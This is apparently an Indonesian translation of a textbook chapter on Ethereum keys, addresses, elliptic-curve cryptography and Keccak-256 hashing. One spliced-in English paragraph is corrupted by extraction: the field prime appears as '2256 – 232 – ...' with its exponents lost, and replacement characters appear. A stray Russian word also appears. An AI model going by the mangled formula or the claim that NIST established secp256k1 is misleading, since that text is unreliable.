Seperti yang kita lihat sebelumnya dalam buku ini, Ethereum memiliki dua jenis akun yang berbeda: **akun milik eksternal (EOA)** dan **kontrak**. Kepemilikan ether oleh EOA ditetapkan melalui kunci privat digital, alamat Ethereum, dan tanda tangan digital. Kunci privat adalah inti dari semua interaksi pengguna dengan Ethereum. Faktanya, alamat akun diturunkan langsung dari kunci privat: sebuah kunci privat secara unik menentukan satu alamat Ethereum, yang juga dikenal sebagai akun.

Kunci privat tidak digunakan secara langsung dalam sistem Ethereum dengan cara apa pun; kunci tersebut tidak pernah ditransmisikan atau disimpan di Ethereum. Artinya, kunci privat harus tetap bersifat privat dan tidak pernah muncul dalam pesan yang diteruskan ke jaringan, juga tidak boleh disimpan secara *on-chain*; hanya alamat akun dan tanda tangan digital yang pernah ditransmisikan dan disimpan di sistem Ethereum. Untuk informasi lebih lanjut tentang cara menjaga keamanan kunci privat, lihat “Kontrol dan Tanggung Jawab” di halaman 15 dan Bab 5.

Akses dan kontrol dana dicapai dengan tanda tangan digital, yang juga dibuat menggunakan kunci privat. Transaksi Ethereum memerlukan tanda tangan digital yang valid untuk dimasukkan ke dalam *blockchain*. Siapa pun yang memiliki salinan kunci privat memiliki kendali atas akun yang sesuai dan ether apa pun yang dimilikinya. Dengan asumsi pengguna menjaga keamanan kunci privatnya, tanda tangan digital dalam transaksi Ethereum membuktikan pemilik sebenarnya dari dana tersebut, karena tanda tangan tersebut membuktikan kepemilikan kunci privat.

Dalam sistem berbasis kriptografi kunci publik, seperti yang digunakan oleh Ethereum, kunci datang berpasangan yang terdiri dari kunci privat (rahasia) dan kunci publik. Anggaplah kunci publik mirip dengan nomor rekening bank, dan kunci privat mirip dengan PIN rahasia; yang terakhir inilah yang memberikan kontrol atas akun, dan yang pertama yang mengidentifikasinya kepada orang lain. Kunci privat itu sendiri sangat jarang dilihat oleh pengguna Ethereum; sebagian besar, kunci tersebut disimpan (dalam bentuk terenkripsi) dalam file khusus dan dikelola oleh perangkat lunak dompet Ethereum.

Dalam bagian pembayaran dari sebuah transaksi Ethereum, penerima yang dituju diwakili oleh sebuah alamat Ethereum, yang digunakan dengan cara yang sama seperti detail rekening penerima manfaat dari sebuah transfer bank. Seperti yang akan kita lihat lebih detail nanti, alamat Ethereum untuk sebuah EOA dihasilkan dari bagian kunci publik dari sepasang kunci. Namun, tidak semua alamat Ethereum mewakili pasangan kunci publik-privat; alamat tersebut juga bisa mewakili kontrak, yang, seperti yang akan kita lihat di Bab 7, tidak didukung oleh kunci privat.

Di sisa bab ini, pertama-tama kita akan menjelajahi kriptografi dasar dengan sedikit lebih detail dan menjelaskan matematika yang digunakan di Ethereum. Kemudian kita akan melihat bagaimana kunci dibuat, disimpan, dan dikelola. Terakhir, kita akan meninjau berbagai format pengkodean yang digunakan untuk merepresentasikan kunci privat, kunci publik, dan alamat.

### Kriptografi Kunci Publik dan Mata Uang Kripto

**Kriptografi kunci publik** (juga disebut “kriptografi asimetris”) adalah bagian inti dari keamanan informasi modern. Protokol pertukaran kunci, yang pertama kali diterbitkan pada tahun 1970-an oleh Martin Hellman, Whitfield Diffie, dan Ralph Merkle, merupakan terobosan monumental yang memicu gelombang besar pertama minat publik di bidang kriptografi. Sebelum tahun 1970-an, pengetahuan kriptografi yang kuat dirahasiakan oleh pemerintah.

Kriptografi kunci publik menggunakan kunci unik untuk mengamankan informasi. Kunci-kunci ini didasarkan pada fungsi matematika yang memiliki sifat khusus: mudah untuk dihitung, tetapi sulit untuk menghitung kebalikannya. Berdasarkan fungsi-fungsi ini, kriptografi memungkinkan pembuatan rahasia digital dan tanda tangan digital yang tidak dapat dipalsukan, yang dijamin oleh hukum matematika.

Misalnya, mengalikan dua bilangan prima besar adalah hal yang sepele. Tetapi jika diberikan hasil kali dari dua bilangan prima besar, sangat sulit untuk menemukan faktor-faktor primanya (sebuah masalah yang disebut **faktorisasi prima**). Katakanlah kami menyajikan angka 8.018.009 dan memberitahu Anda bahwa itu adalah hasil kali dari dua bilangan prima. Menemukan kedua bilangan prima tersebut jauh lebih sulit bagi Anda daripada bagi saya untuk mengalikannya untuk menghasilkan 8.018.009.

Beberapa fungsi matematika ini dapat dibalik dengan mudah jika Anda mengetahui beberapa informasi rahasia. Dalam contoh sebelumnya, jika saya memberitahu Anda bahwa salah satu faktor primanya adalah 2.003, Anda dapat dengan mudah menemukan yang lain dengan pembagian sederhana: 8.018.009 ÷ 2.003 = 4.003. Fungsi semacam itu sering disebut ***trapdoor function*** karena sangat sulit untuk dibalik kecuali Anda diberi sepotong informasi rahasia yang dapat digunakan sebagai jalan pintas untuk membalikkan fungsi tersebut.

Kategori fungsi matematika yang lebih canggih yang berguna dalam kriptografi didasarkan pada operasi aritmatika pada **kurva eliptik**. Dalam aritmatika kurva eliptik, perkalian modulo sebuah bilangan prima itu sederhana tetapi pembagian (kebalikannya) secara praktis tidak mungkin. Ini disebut **masalah logaritma diskrit** dan saat ini tidak ada *trapdoor* yang diketahui. Kriptografi kurva eliptik digunakan secara luas dalam sistem komputer modern dan merupakan dasar dari penggunaan kunci privat dan tanda tangan digital oleh Ethereum (dan mata uang kripto lainnya).

> Lihat sumber daya berikut jika Anda tertarik untuk membaca lebih lanjut tentang kriptografi dan fungsi matematika yang digunakan dalam kriptografi modern:
>
>   * Kriptografi [http://bit.ly/2DcwNhn](http://bit.ly/2DcwNhn)
>   * *Trapdoor function* [http://bit.ly/2zeZV3c](http://bit.ly/2zeZV3c)
>   * Faktorisasi prima [http://bit.ly/2ACJjnV](http://bit.ly/2ACJjnV)
>   * Logaritma diskrit [http://bit.ly/2Q7mZYI](http://bit.ly/2Q7mZYI)
>   * Kriptografi kurva eliptik [http://bit.ly/2zfeKCP](http://bit.ly/2zfeKCP)

Di Ethereum, kita menggunakan kriptografi kunci publik (juga dikenal sebagai kriptografi asimetris) untuk membuat pasangan kunci publik-privat yang telah kita bicarakan dalam bab ini. Keduanya dianggap sebagai "pasangan" karena kunci publik diturunkan dari kunci privat. Bersama-sama, keduanya mewakili sebuah akun Ethereum dengan menyediakan, masing-masing, sebuah penanda akun yang dapat diakses publik (alamat) dan kontrol privat atas akses ke ether apa pun di akun tersebut dan atas otentikasi apa pun yang dibutuhkan akun saat menggunakan *smart contract*. Kunci privat mengontrol akses dengan menjadi satu-satunya informasi yang diperlukan untuk membuat tanda tangan digital, yang diperlukan untuk menandatangani transaksi untuk membelanjakan dana apa pun di akun tersebut. Tanda tangan digital juga digunakan untuk mengotentikasi pemilik atau pengguna kontrak, seperti yang akan kita lihat di Bab 7.

> Dalam sebagian besar implementasi dompet, kunci privat dan publik disimpan bersama sebagai pasangan kunci untuk kenyamanan. Namun, kunci publik dapat dihitung dengan mudah dari kunci privat, jadi menyimpan hanya kunci privat juga dimungkinkan.

Tanda tangan digital dapat dibuat untuk menandatangani pesan apa pun. Untuk transaksi Ethereum, detail dari transaksi itu sendiri digunakan sebagai pesan. Matematika kriptografi—dalam hal ini, kriptografi kurva eliptik—menyediakan cara agar pesan (yaitu, detail transaksi) dapat digabungkan dengan kunci privat untuk membuat kode yang hanya dapat diproduksi dengan pengetahuan tentang kunci privat. Kode itu disebut **tanda tangan digital**. Perhatikan bahwa transaksi Ethereum pada dasarnya adalah permintaan untuk mengakses akun tertentu dengan alamat Ethereum tertentu. Ketika sebuah transaksi dikirim ke jaringan Ethereum untuk memindahkan dana atau berinteraksi dengan *smart contract*, transaksi tersebut perlu dikirim dengan tanda tangan digital yang dibuat dengan kunci privat yang sesuai dengan alamat Ethereum yang bersangkutan. Matematika kurva eliptik berarti bahwa siapa pun dapat memverifikasi bahwa sebuah transaksi valid, dengan memeriksa bahwa tanda tangan digital cocok dengan detail transaksi dan alamat Ethereum yang aksesnya diminta. Proses verifikasi tidak melibatkan kunci privat sama sekali; itu tetap privat. Namun, proses verifikasi menentukan tanpa keraguan bahwa transaksi tersebut hanya bisa berasal dari seseorang dengan kunci privat yang sesuai dengan kunci publik di balik alamat Ethereum tersebut. Inilah "keajaiban" dari kriptografi kunci publik.

> Tidak ada enkripsi sebagai bagian dari protokol Ethereum—semua pesan yang dikirim sebagai bagian dari operasi jaringan Ethereum dapat (dan harus) dibaca oleh semua orang. Dengan demikian, kunci privat hanya digunakan untuk membuat tanda tangan digital untuk otentikasi transaksi.

### Kunci Privat

**Kunci privat** hanyalah sebuah angka, yang dipilih secara acak. Kepemilikan dan kontrol atas kunci privat adalah akar dari kontrol pengguna atas semua dana yang terkait dengan alamat Ethereum yang sesuai, serta akses ke kontrak yang mengotorisasi alamat tersebut. Kunci privat digunakan untuk membuat tanda tangan yang diperlukan untuk membelanjakan ether dengan membuktikan kepemilikan dana yang digunakan dalam sebuah transaksi. Kunci privat harus tetap **rahasia** setiap saat, karena mengungkapkannya kepada pihak ketiga sama dengan memberi mereka kendali atas ether dan kontrak yang diamankan oleh kunci privat tersebut. Kunci privat juga harus **dicadangkan** dan dilindungi dari kehilangan yang tidak disengaja. Jika hilang, kunci tersebut tidak dapat dipulihkan dan dana yang diamankan olehnya juga akan hilang selamanya.

> Kunci privat Ethereum hanyalah sebuah angka. Salah satu cara untuk memilih kunci privat Anda secara acak adalah dengan hanya menggunakan koin, pensil, dan kertas: lempar koin sebanyak 256 kali dan Anda memiliki digit biner dari kunci privat acak yang dapat Anda gunakan di dompet Ethereum (mungkin—lihat bagian selanjutnya). Kunci publik dan alamat kemudian dapat dihasilkan dari kunci privat.

#### Menghasilkan Kunci Privat dari Angka Acak

Langkah pertama dan terpenting dalam menghasilkan kunci adalah menemukan sumber entropi, atau keacakan, yang aman. Membuat kunci privat Ethereum pada dasarnya melibatkan pemilihan angka antara 1 dan 2\<sup\>256\</sup\>. Metode persis yang Anda gunakan untuk memilih angka itu tidak menjadi masalah selama tidak dapat diprediksi atau deterministik. Perangkat lunak Ethereum menggunakan generator angka acak dari sistem operasi yang mendasarinya untuk menghasilkan 256 bit acak. Biasanya, generator angka acak OS diinisialisasi oleh sumber keacakan manusia, itulah sebabnya Anda mungkin diminta untuk menggoyangkan mouse Anda selama beberapa detik, atau menekan tombol acak di keyboard Anda. Alternatifnya bisa berupa derau radiasi kosmik di saluran mikrofon komputer.

Lebih tepatnya, kunci privat dapat berupa angka bukan nol apa pun hingga angka yang sangat besar sedikit kurang dari 2\<sup\>256\</sup\>—angka 78 digit yang sangat besar, sekitar 1,158 \* 10\<sup\>77\</sup\>. Angka pastinya berbagi 38 digit pertama dengan 2\<sup\>256\</sup\> dan didefinisikan sebagai urutan kurva eliptik yang digunakan di Ethereum (lihat “Penjelasan Kriptografi Kurva Eliptik” di halaman 65). Untuk membuat kunci privat, kita secara acak memilih angka 256-bit dan memeriksa apakah berada dalam rentang yang valid. Dalam istilah pemrograman, ini biasanya dicapai dengan memasukkan string bit acak yang lebih besar (dikumpulkan dari sumber keacakan yang aman secara kriptografis) ke dalam algoritma hash 256-bit seperti Keccak-256 atau SHA-256, keduanya akan dengan mudah menghasilkan angka 256-bit. Jika hasilnya berada dalam rentang yang valid, kita memiliki kunci privat yang sesuai. Jika tidak, kita cukup mencoba lagi dengan angka acak lainnya.

> 2\<sup\>256\</sup\>—ukuran ruang kunci privat Ethereum—adalah angka yang luar biasa besar. Kira-kira 10\<sup\>77\</sup\> dalam desimal; yaitu, angka dengan 77 digit. Sebagai perbandingan, alam semesta yang terlihat diperkirakan mengandung 10\<sup\>80\</sup\> atom. Jadi, hampir ada cukup kunci privat untuk memberikan setiap atom di alam semesta sebuah akun Ethereum. Jika Anda memilih kunci privat secara acak, tidak ada cara yang masuk akal bagi siapa pun untuk menebaknya atau memilihnya sendiri.

Perhatikan bahwa proses pembuatan kunci privat adalah proses *offline*; tidak memerlukan komunikasi apa pun dengan jaringan Ethereum, atau bahkan komunikasi dengan siapa pun. Dengan demikian, untuk memilih angka yang tidak akan pernah dipilih oleh orang lain, angka itu harus benar-benar acak. Jika Anda memilih angka itu sendiri, kemungkinan orang lain akan mencobanya (dan kemudian kabur dengan ether Anda) terlalu tinggi. Menggunakan generator angka acak yang buruk (seperti fungsi `rand` pseudorandom di sebagian besar bahasa pemrograman) bahkan lebih buruk, karena lebih jelas dan lebih mudah untuk direplikasi. Sama seperti kata sandi untuk akun online, kunci privat harus tidak dapat ditebak. Untungnya, Anda tidak perlu mengingat kunci privat Anda, jadi Anda dapat mengambil pendekatan terbaik untuk memilihnya: yaitu, keacakan sejati.

> Jangan menulis kode Anda sendiri untuk membuat angka acak atau menggunakan generator angka acak "sederhana" yang ditawarkan oleh bahasa pemrograman Anda. Sangat penting bagi Anda untuk menggunakan generator angka pseudorandom yang aman secara kriptografis (seperti CSPRNG) dengan *seed* dari sumber entropi yang cukup. Pelajari dokumentasi pustaka generator angka acak yang Anda pilih untuk memastikannya aman secara kriptografis. Implementasi yang benar dari pustaka CSPRNG sangat penting untuk keamanan kunci.

Berikut ini adalah kunci privat yang dihasilkan secara acak yang ditampilkan dalam format heksadesimal (256 bit ditampilkan sebagai 64 digit heksadesimal, masing-masing 4 bit):

`f8f8a2f43c8376ccb0871305060d7b27b0554d2cc72bccf41b2705608452f315`

### Kunci Publik

Kunci publik Ethereum adalah sebuah titik pada kurva eliptik, yang berarti itu adalah satu set koordinat x dan y yang memenuhi persamaan kurva eliptik.

Dalam istilah yang lebih sederhana, kunci publik Ethereum adalah dua angka, yang digabungkan. Angka-angka ini dihasilkan dari kunci privat melalui perhitungan yang hanya bisa berjalan satu arah. Itu berarti bahwa sangat mudah untuk menghitung kunci publik jika Anda memiliki kunci privat, tetapi Anda tidak dapat menghitung kunci privat dari kunci publik.

> **MATEMATIKA** akan segera terjadi\! Jangan panik. Jika Anda mulai bingung di salah satu paragraf berikut, Anda dapat melewati beberapa bagian berikutnya. Ada banyak alat dan pustaka yang akan melakukan perhitungan untuk Anda.

Kunci publik dihitung dari kunci privat menggunakan perkalian kurva eliptik, yang secara praktis tidak dapat dibalik: **K = k \* G**, di mana **k** adalah kunci privat, **G** adalah titik konstan yang disebut *generator point*, **K** adalah kunci publik yang dihasilkan, dan \*\*\*\*\* adalah operator "perkalian" kurva eliptik khusus. Perhatikan bahwa perkalian kurva eliptik tidak seperti perkalian normal. Ia memiliki atribut fungsional yang sama dengan perkalian normal, tetapi hanya itu. Misalnya, operasi kebalikannya (yang akan menjadi pembagian untuk bilangan normal), yang dikenal sebagai "menemukan logaritma diskrit"—yaitu, menghitung **k** jika Anda tahu **K**—sama sulitnya dengan mencoba semua nilai **k** yang mungkin (pencarian *brute-force* yang kemungkinan akan memakan waktu lebih lama dari yang diizinkan oleh alam semesta ini).

Dalam istilah yang lebih sederhana: aritmatika pada kurva eliptik berbeda dari aritmatika integer "biasa". Sebuah titik (**G**) dapat dikalikan dengan sebuah integer (**k**) untuk menghasilkan titik lain (**K**). Tetapi tidak ada yang namanya pembagian, jadi tidak mungkin untuk hanya "membagi" kunci publik **K** dengan titik **G** untuk menghitung kunci privat **k**. Inilah fungsi matematika satu arah yang dijelaskan dalam “Kriptografi Kunci Publik dan Mata Uang Kripto” di halaman 60.

> Perkalian kurva eliptik adalah jenis fungsi yang oleh para kriptografer disebut fungsi "satu arah": mudah dilakukan dalam satu arah (perkalian) dan tidak mungkin dilakukan dalam arah sebaliknya (pembagian). Pemilik kunci privat dapat dengan mudah membuat kunci publik dan kemudian membagikannya kepada dunia, dengan mengetahui bahwa tidak ada yang dapat membalikkan fungsi tersebut dan menghitung kunci privat dari kunci publik. Trik matematika ini menjadi dasar untuk tanda tangan digital yang tidak dapat dipalsukan dan aman yang membuktikan kepemilikan dana Ethereum dan kontrol atas kontrak.

Sebelum kita mendemonstrasikan cara menghasilkan kunci publik dari kunci privat, mari kita lihat kriptografi kurva eliptik dengan sedikit lebih detail.

### Penjelasan Kriptografi Kurva Eliptik

Kriptografi kurva eliptik adalah jenis kriptografi asimetris atau kunci publik yang didasarkan pada masalah logaritma diskrit seperti yang diekspresikan oleh penjumlahan dan perkalian pada titik-titik kurva eliptik.

Gambar 4-1 adalah contoh kurva eliptik, mirip dengan yang digunakan oleh Ethereum.

> Ethereum menggunakan kurva eliptik yang sama persis, yang disebut **secp256k1**, seperti Bitcoin. Hal itu memungkinkan untuk menggunakan kembali banyak pustaka dan alat kurva eliptik dari Bitcoin.

<p align="center">
  
</p>

Ethereum uses a specific elliptic curve and set of mathematical constants, as defined
in a standard called secp256k1, established by the US National Institute of Standards
and Technology (NIST). The secp256k1 curve is defined by the following function,
which produces an elliptic curve:
y2 = x3 + 7 over � p
or:
y2 mod p = x3 + 7 mod p
The mod p (modulo prime number p) indicates that this curve is over a finite field of
prime order p, also written as � p, where p = 2256 – 232 – 29 – 28 – 27 – 26 – 24 – 1, which
is a very large prime number.
Because this curve is defined over a finite field of prime order instead of over the real
numbers, it looks like a pattern of dots scattered in two dimensions, which makes it
difficult to visualize. However, the math is identical to that of an elliptic curve over
real numbers. As an example, Figure 4-2 shows the same elliptic curve over a much
smaller finite field of prime order 17, showing a pattern of dots on a grid. The
secp256k1 Ethereum elliptic curve can be thought of as a much more complex pat‐
tern of dots on an unfathomably large grid.

<p align="center">
  
</p>

Jadi, sebagai contoh, berikut ini adalah titik Q dengan koordinat (x,y) yang merupakan sebuah titik pada kurva `secp256k1`:
$Q =$
(49790390825249384486033144355916864607616083520101638681403973749255924539515,
59574132161899900045862086493921015780032175291755807399284007721050341297360\)

Contoh 4-1 menunjukkan bagaimana Anda dapat memeriksanya sendiri menggunakan Python. Variabel `x` dan `y` adalah koordinat dari titik Q, seperti pada contoh sebelumnya. Variabel `p` adalah orde prima dari kurva eliptik (bilangan prima yang digunakan untuk semua operasi modulo). Baris terakhir Python adalah persamaan kurva eliptik (operator `%` di Python adalah operator modulo). Jika `x` dan `y` memang koordinat dari sebuah titik pada kurva eliptik, maka mereka memenuhi persamaan dan hasilnya adalah nol (`0L` adalah bilangan bulat panjang dengan nilai nol). Cobalah sendiri, dengan mengetik `python` pada baris perintah dan menyalin setiap baris (setelah prompt `>>>`) dari daftar.

**Contoh 4-1. Menggunakan Python untuk mengonfirmasi bahwa titik ini berada pada kurva eliptik**

```python
Python 3.4.0 (default, Mar 30 2014, 19:23:13) 
[GCC 4.2.1 Compatible Apple LLVM 5.1 (clang-503.0.38)] on darwin 
Type "help", "copyright", "credits" or "license" for more information. 
>>> p = 115792089237316195423570985008687907853269984665640564039457584007908834671663 
>>> x = 49790390825249384486033144355916864607616083520101638681403973749255924539515 
>>> y = 59574132161899900045862086493921015780032175291755807399284007721050341297360 
>>> (x ** 3 + 7 - y**2) % p 
0L
```

## Operasi Aritmetika Kurva Eliptik

Banyak matematika kurva eliptik terlihat dan bekerja sangat mirip dengan aritmetika bilangan bulat yang kita pelajari di sekolah. Secara spesifik, kita dapat mendefinisikan sebuah operator penjumlahan, yang alih-alih melompat di sepanjang garis bilangan, ia melompat ke titik-titik lain pada kurva. Setelah kita memiliki operator penjumlahan, kita juga dapat mendefinisikan perkalian antara sebuah titik dan sebuah bilangan bulat, yang setara dengan penjumlahan berulang.

Penjumlahan kurva eliptik didefinisikan sedemikian rupa sehingga jika diberikan dua titik $P\_1$ dan $P\_2$ pada kurva eliptik, ada titik ketiga $P\_3 = P\_1 + P\_2$, yang juga berada pada kurva eliptik.

Secara geometris, titik ketiga $P\_3$ ini dihitung dengan menggambar garis antara $P\_1$ dan $P\_2$. Garis ini akan memotong kurva eliptik di tepat satu tempat tambahan (luar biasa). Sebut titik ini $P\_3' = (x, y)$. Kemudian cerminkan terhadap sumbu-x untuk mendapatkan $P\_3 = (x, –y)$.

Jika $P\_1$ dan $P\_2$ adalah titik yang sama, garis "antara" $P\_1$ dan $P\_2$ harus diperluas menjadi garis singgung kurva pada titik $P\_1$ ini. Garis singgung ini akan memotong kurva di tepat satu titik baru. Anda dapat menggunakan teknik dari kalkulus untuk menentukan kemiringan garis singgung. Anehnya, teknik-teknik ini berfungsi, meskipun kita membatasi minat kita pada titik-titik di kurva dengan dua koordinat bilangan bulat\!

Dalam matematika kurva eliptik, ada juga sebuah titik yang disebut **“titik di tak terhingga” (point at infinity)**, yang secara kasar sesuai dengan peran angka nol dalam penjumlahan. Di komputer, terkadang direpresentasikan dengan $x = y = 0$ (yang tidak memenuhi persamaan kurva eliptik, tetapi ini adalah kasus terpisah yang mudah diperiksa). Ada beberapa kasus khusus yang menjelaskan perlunya titik di tak terhingga.

  * Dalam beberapa kasus (misalnya, jika $P\_1$ dan $P\_2$ memiliki nilai x yang sama tetapi nilai y yang berbeda), garisnya akan persis vertikal, dalam hal ini $P\_3 =$ titik di tak terhingga.

  * Jika $P\_1$ adalah titik di tak terhingga, maka $P\_1 + P\_2 = P\_2$. Demikian pula, jika $P\_2$ adalah titik di tak terhingga, maka $P\_1 + P\_2 = P\_1$. Ini menunjukkan bagaimana titik di tak terhingga memainkan peran yang sama seperti nol dalam aritmetika "normal".

Ternyata `+` bersifat asosiatif, yang berarti $(A + B) + C = A + (B + C)$. Ini berarti kita dapat menulis $A + B + C$ (tanpa tanda kurung) tanpa ambiguitas.

Sekarang setelah kita mendefinisikan penjumlahan, kita dapat mendefinisikan perkalian dengan cara standar yang memperluas penjumlahan. Untuk sebuah titik $P$ pada kurva eliptik, jika $k$ adalah bilangan bulat, maka $k \* P = P + P + P + … + P$ ($k$ kali). Perhatikan bahwa $k$ kadang-kadang (mungkin membingungkan) disebut sebagai “eksponen” dalam kasus ini.

## Menghasilkan Kunci Publik

Dimulai dengan kunci privat dalam bentuk angka yang dihasilkan secara acak, $k$, kita mengalikannya dengan titik yang telah ditentukan sebelumnya pada kurva yang disebut **titik generator $G$** untuk menghasilkan titik lain di tempat lain pada kurva, yang merupakan kunci publik $K$ yang sesuai:

$$K = k*G$$

Titik generator ditentukan sebagai bagian dari standar `secp256k1`; ia sama untuk semua implementasi `secp256k1`, dan semua kunci yang berasal dari kurva tersebut menggunakan titik $G$ yang sama. Karena titik generator selalu sama untuk semua pengguna Ethereum, kunci privat $k$ yang dikalikan dengan $G$ akan selalu menghasilkan kunci publik $K$ yang sama. Hubungan antara $k$ dan $K$ adalah tetap, tetapi hanya dapat dihitung dalam satu arah, dari $k$ ke $K$. Itulah mengapa alamat Ethereum (yang diturunkan dari $K$) dapat dibagikan dengan siapa pun dan tidak mengungkapkan kunci privat pengguna ($k$).

Seperti yang kami jelaskan di bagian sebelumnya, perkalian $k \* G$ setara dengan penjumlahan berulang, yaitu $G + G + G + … + G$, diulang sebanyak $k$ kali. Singkatnya, untuk menghasilkan kunci publik $K$ dari kunci privat $k$, kita menambahkan titik generator $G$ ke dirinya sendiri, sebanyak $k$ kali.

> **Kunci privat dapat diubah menjadi kunci publik, tetapi kunci publik tidak dapat diubah kembali menjadi kunci privat, karena matematikanya hanya bekerja satu arah.**

Mari kita terapkan perhitungan ini untuk menemukan kunci publik untuk kunci privat spesifik yang kami tunjukkan di “Private Keys” di halaman 62:
$K = \\text{f8f8a2f43c8376ccb0871305060d7b27b0554d2cc72bccf41b2705608452f315} \* G$

Sebuah pustaka kriptografi dapat membantu kita menghitung $K$, menggunakan perkalian kurva eliptik. Kunci publik $K$ yang dihasilkan didefinisikan sebagai titik:
$K = (x, y)$

di mana:
$x = \\text{6e145ccef1033dea239875dd00dfb4fee6e3348b84985c92f103444683bae07b}$
$y = \\text{83b5c38e5e2b0c8529d7fa3f64d46daa1ece2d9ac14cab9477d042c84c32ccd0}$

Di Ethereum, Anda mungkin melihat kunci publik direpresentasikan sebagai serialisasi dari 130 karakter heksadesimal (65 byte). Ini diadopsi dari format serialisasi standar yang diusulkan oleh konsorsium industri Standards for Efficient Cryptography Group (SECG), yang didokumentasikan dalam Standards for Efficient Cryptography (SEC1). Standar ini mendefinisikan empat kemungkinan awalan yang dapat digunakan untuk mengidentifikasi titik pada kurva eliptik, yang tercantum dalam Tabel 4-1.

<p align="center">
  
</p>

Ethereum hanya menggunakan kunci publik yang tidak terkompresi; oleh karena itu satu-satunya awalan yang relevan adalah (hex) `04`. Serialisasi ini menggabungkan koordinat `x` dan `y` dari kunci publik:

`04 + koordinat-x (32 byte/64 hex) + koordinat-y (32 byte/64 hex)`

Oleh karena itu, kunci publik yang kita hitung sebelumnya diserialisasikan sebagai:
`046e145ccef1033dea239875dd00dfb4fee6e3348b84985c92f103444683bae07b83b5c38e5e2b0c8529d7fa3f64d46daa1ece2d9ac14cab9477d042c84c32ccd0`

## Pustaka (Library) Kurva Eliptik

Ada beberapa implementasi dari kurva eliptik `secp256k1` yang digunakan dalam proyek-proyek terkait mata uang kripto:

  * **OpenSSL** `https://www.openssl.org/`
    Pustaka OpenSSL menawarkan seperangkat primitif kriptografi yang komprehensif, termasuk implementasi penuh `secp256k1`. Misalnya, untuk menurunkan kunci publik, fungsi `EC_POINT_mul` dapat digunakan.

  * **libsecp256k1** `https://github.com/bitcoin-core/secp256k1`
    `libsecp256k1` dari Bitcoin Core adalah implementasi bahasa C dari kurva eliptik `secp256k1` dan primitif kriptografi lainnya. Ini ditulis dari awal untuk menggantikan OpenSSL dalam perangkat lunak Bitcoin Core, dan dianggap lebih unggul baik dalam kinerja maupun keamanan.

## Fungsi Hash Kriptografis

Fungsi hash kriptografis digunakan di seluruh Ethereum. Faktanya, fungsi hash digunakan secara ekstensif di hampir semua sistem kriptografi—sebuah fakta yang ditangkap oleh kriptografer Bruce Schneier, yang berkata, “Jauh lebih dari algoritma enkripsi, fungsi hash satu arah adalah pekerja keras kriptografi modern.”

Di bagian ini kita akan membahas fungsi hash, menjelajahi properti dasarnya, dan melihat bagaimana properti tersebut membuatnya begitu berguna di begitu banyak area kriptografi modern. Kami membahas fungsi hash di sini karena mereka adalah bagian dari transformasi kunci publik Ethereum menjadi alamat. Mereka juga dapat digunakan untuk membuat sidik jari digital, yang membantu dalam verifikasi data.

Secara sederhana, **fungsi hash** adalah "fungsi apa pun yang dapat digunakan untuk memetakan data berukuran sembarang ke data berukuran tetap." Input ke fungsi hash disebut *pre-image*, *pesan*, atau просто *data input*. Outputnya disebut *hash*. **Fungsi hash kriptografis** adalah subkategori khusus yang memiliki properti spesifik yang berguna untuk platform aman, seperti Ethereum.

Fungsi hash kriptografis adalah **fungsi hash satu arah** yang memetakan data berukuran sembarang ke string bit berukuran tetap. Sifat "satu arah" berarti secara komputasi tidak memungkinkan untuk membuat ulang data input jika seseorang hanya mengetahui hash outputnya. Satu-satunya cara untuk menentukan input yang mungkin adalah dengan melakukan pencarian *brute-force*, memeriksa setiap kandidat untuk output yang cocok; mengingat ruang pencarian yang hampir tak terbatas, mudah untuk memahami ketidakmungkinan praktis dari tugas tersebut. Bahkan jika Anda menemukan beberapa data input yang menciptakan hash yang cocok, itu mungkin bukan data input asli: fungsi hash adalah fungsi "banyak-ke-satu". Menemukan dua set data input yang menghasilkan hash output yang sama disebut menemukan **tabrakan hash (hash collision)**. Secara kasar, semakin baik fungsi hash, semakin jarang tabrakan hash terjadi. Untuk Ethereum, hal ini secara efektif tidak mungkin.

Mari kita lihat lebih dekat properti utama dari fungsi hash kriptografis. Ini termasuk:

  * **Deterministik**
    Pesan input yang diberikan selalu menghasilkan output hash yang sama.

  * **Dapat Diverifikasi (Verifiability)**
    Menghitung hash dari sebuah pesan itu efisien (kompleksitas linear).

  * **Non-korelasi**
    Perubahan kecil pada pesan (misalnya, perubahan 1-bit) harus mengubah output hash secara ekstensif sehingga tidak dapat dikorelasikan dengan hash dari pesan asli.

  * **Tidak dapat dibalik (Irreversibility)**
    Menghitung pesan dari hash-nya tidak memungkinkan, setara dengan pencarian *brute-force* melalui semua kemungkinan pesan.

  * **Perlindungan terhadap tabrakan (Collision protection)**
    Seharusnya tidak memungkinkan untuk menghitung dua pesan berbeda yang menghasilkan output hash yang sama.

Ketahanan terhadap tabrakan hash sangat penting untuk menghindari pemalsuan tanda tangan digital di Ethereum.

Kombinasi dari properti-properti ini membuat fungsi hash kriptografis berguna untuk berbagai aplikasi keamanan, termasuk:

  * Sidik jari data (Data fingerprinting)
  * Integritas pesan (deteksi kesalahan)
  * Proof of work
  * Otentikasi (hashing kata sandi dan peregangan kunci)
  * Generator angka pseudo-acak
  * Komitmen pesan (mekanisme commit-reveal)
  * Pengidentifikasi unik

Kita akan menemukan banyak dari ini di Ethereum saat kita maju melalui berbagai lapisan sistem.

## Fungsi Hash Kriptografis Ethereum: Keccak-256

Ethereum menggunakan fungsi hash kriptografis **Keccak-256** di banyak tempat. Keccak-256 dirancang sebagai kandidat untuk Kompetisi Fungsi Hash Kriptografis SHA-3 yang diadakan pada tahun 2007 oleh National Institute of Science and Technology (NIST). Keccak adalah algoritma pemenang, yang menjadi standar sebagai Federal Information Processing Standard (FIPS) 202 pada tahun 2015.

